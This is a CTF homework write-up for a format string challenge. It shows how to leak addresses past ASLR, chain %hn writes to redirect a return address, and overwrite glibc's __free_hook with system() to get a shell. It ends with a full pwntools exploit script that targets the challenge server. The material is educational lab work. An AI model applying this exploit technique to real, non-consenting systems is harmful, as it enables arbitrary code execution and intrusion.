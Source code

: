 # Homework 10a Writeup (without `giveup()`)
![bruh](/hw10a/image-1.png)

## A Quick Look 
![Alt text](/hw10a/image-2.png)

Sums up every CTF challenge so far ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatgooglytrash.png)

As a rule of thumb we will run `checksec` on the binary:

![Alt text](/hw10a/image-6.png)

Looks scary ![emoji](https://blob.cat/emoji/custom/blobcats/ablobcatsweatsiphard.gif)

The vulnerability could be easily found in the source code if you're using the `clangd` lauguage server in your editor:

![Alt text](/hw10a/image-4.png)

It reads the "name of the snack" into a buffer [in the heap]{.spoiler} then `printf`s it as the format string itself. It appears to be an easy format string attack challenge. We will try some generic payloads:

![Alt text](/hw10a/image-5.png)

Looks like we got some addresses on the stack to bypass ASLR ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatglowsticks.png). Now we have to figure out how to do our abritrary write, so that we can overwrite the GOT entry of a libc function with the address of `system()`.


## Where did my payload go ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatsob.png)

Let's run it on `gdb` and see what the stack looks like when we enter our payload:

![Alt text](/hw10a/image-7.png)

The text we entered is nowhere to be found on the stack. But we can see a pointer to our payload `AAAA...` on the **heap**.  If we look back at the source code, we can see that the `buffer` string is allocated on the heap using `malloc()`.

But in order to execute an abritrary write using format strings (and the `%n` format specifier), the address to be written is specified at an argument, meaning it must also be on the stack. If we tried use `fmtstr_payload()` from pwntools, it will just write to the location pointed by some pointers on the stack.

How about the `name` buffer at the start of the program? Can we put the target addresses into it? It is indeed stored on the stack, but **before** we can leak our address from the buffer to bypass ASLR. If we manage to modify it *after* we leak the address, then we could do the abritrary write. But how?

Is there a good way to return to the `ctf_simulator` function, without calling `giveup()`? Well, to *control the flow*, we could only overwrite either a GOT entry, or the return address of the function at `rbp+1`. Back to square one ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatangery.png)


## Chaining the overwrites

A trick I learned from [the MIPS ROP challenge](/hkcert#mips-rop-gldanoob) is to make use of the existing values on the stack which are deterministic. In this case it means we can utilize those pointer values to control another value on the stack. For example, the value at `rbp` (`0x7fffffffd650`) refers to the saved `rbp` (`rbp + 0x120`), which points to the base of the previous stack frame. What if we used the format string exploit with the pointer at `rbp`? The value at base of the previous stack frame (which also is a pointer to the stack) get overwritten.

```
[rbp] (8th arg)  -> rbp + 0x120
...
(Stack frame of ctf_simulator())
...
[rbp + 0x120]     -> 0x7fffffffd780
```


Let's try overwriting it with the format specifier `%1c%8$hn` (writing `0x0001` to the address pointed by the 8th argument):

```
[rbp + 0x120] -> 0x7fffffff0001
```

We have another address on the stack, differing from the previous by the lower bytes (first two bytes in memory). What makes it even better is that we can just make it point to `rbp+1`, by just altering those two bytes with `%54872c%10$hn`:

```
[rbp + 0x120] -> 0x7fffffffd658 = rbp + 1
```
(The exact value of `rbp` can be calculated using the leaked stack address from earlier)

Now we have a pointer to the return address (`rbp + 1`) on the stack! Using it as the argument to the format string exploit, we can overwrite the return address with `ctf_simulator` using the same trick:

```
[rbp + 1]     -> ctf_simulator()
...
[rbp + 0x120] -> rbp + 1
```

Now the program will ask us for the team name again once the `get_snack` function exits.

## Full RELRO... or not?

Now that we had our abritary overwrite using the `name` buffer, we can use the leaked address from earlier to calculate the address of the GOT table, 
and leak the address of `puts()` in memory with `%10$s`, thus obtaining the address of `system()`:

![](/hw10a/image-9.png)

However there is a problem: the binary is compiled with full RELRO, meaning the GOT table is read-only. We can't simply overwrite any GOT entry with the address of `system()`. But if we're lucky and the LIBC version on the server is older, there's a chance the LIBC calls a function pointer `__free_hook` (which can be user defined) when freeing chunks on the heap.

We can check the LIBC version using <https://libc.blukat.me/> with our leaked address:

![Alt text](/hw10a/image-8.png)

The LIBC version is older than 2.34, so we can use the `__free_hook` trick and overwrite it with the address of `system()` ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatglowsticks.png). We'll use the `name` buffer again, since the output of `fmtstr_payload()` has to be on the stack.

One last thing is to get `system()` to be called with the argument `/bin/sh`. But since whatever is being freed is also passed to `__free_hook`, which in this case happenes to be `buffer`, we can just put `/bin/sh` as the name of our snack.

## Solution
1. Leak the base address of the binary and the saved RBP
2. Using two format string exploits, overwrite the return address of the `get_snacks()` call with `ctf_simulator`
3. Leak the address of `puts()` by setting `name` to `puts@GOT` and calculate the address of `system()`
4. Return to `ctf_simulator` again, set `__free_hook` to the address of `system()`
5. Enter `/bin/sh` as the name of the snack, wait for `buffer` to be freed and `cat flag.txt`

```py
import sys

from pwn import *  # type: ignore

mode = 'l'
if len(sys.argv) > 1:
    mode = sys.argv[1]

e = ELF('./ctf_sim')
libc = ELF('./libc.so.6')
context.binary = e

if mode == 'r':
    p = connect('chal.firebird.sh', 35048)
else:
    p = process([e.path])


p.sendline(b'AAAAAAAAAAAAAAAAA')


def ret_to_ctf():
    # after leaking rbp and setting e.address

    # rbp $8 -> rbp+0x120 $44 -> rbp+0x130
    # make rbp+0x120 point to return address (rbp+8)
    p.sendlineafter(b'option: ', b'3')
    payload = '%{}c%{}$hn'.format((rbp + 8) & 0xffff, 8)
    p.sendlineafter(b'today? ', payload)

    # edit return address to start of ctf_simulator
    p.sendlineafter(b'option: ', b'3')
    payload = '%{}c%{}$hn'.format(e.sym['ctf_simulator'] + 15 & 0xffff, 44)
    p.sendlineafter(b'today? ', payload)


# Leak RBP of ctf_simulator & Return address
p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', b'%8$payo%9$pez')
p.recvuntil(b'0x')
rbp = int(p.recvuntil('ayo', drop=True).strip(), 16) - 0x120
ret = int(p.recvuntil('ez', drop=True).strip(), 16)
print('RBP: ', hex(rbp))
print('Return address: ', hex(ret))
# Set the base address of ELF
e.address = ret - e.sym['ctf_simulator'] - 166


ret_to_ctf()
p.pack(e.got['puts'])
p.sendline()

# Leak puts
p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', b'%10$sAAAA')
puts = unpack(p.recvuntil('AAAA', drop=True), 'all')
print('PUTS: ', hex(puts))
libc.address = puts - libc.sym['puts']
hook = libc.sym['__free_hook']
print('HOOK: ', hex(hook))


ret_to_ctf()
# Overwrite __free_hook with system
payload = fmtstr_payload(10, {hook: libc.sym['system']})
p.sendline(payload)

p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', payload)
p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', '/bin/sh\x00')
p.interactive()
```

